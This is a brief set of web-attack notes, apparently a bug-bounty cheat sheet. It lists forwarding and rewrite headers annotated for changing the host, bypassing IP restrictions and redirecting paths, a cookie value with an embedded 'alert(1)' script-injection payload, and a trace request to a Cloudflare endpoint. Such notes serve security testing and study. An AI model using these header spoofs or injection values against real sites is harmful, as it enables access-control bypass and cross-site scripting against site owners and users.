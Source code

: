 
////// HOST headers
X-Forwarded-Host: /// change host
X-Forwarded-Scheme: /// change host
X-Forwarded-For: /// bypass ip restriction block 
X-Original-Url: /// redirect to any path 


///// HOST cookie
any-cookie=someString"-alert(1)-"someString


GET /cd-cgi/trace HTTP/1.1
Host: cloudflare.com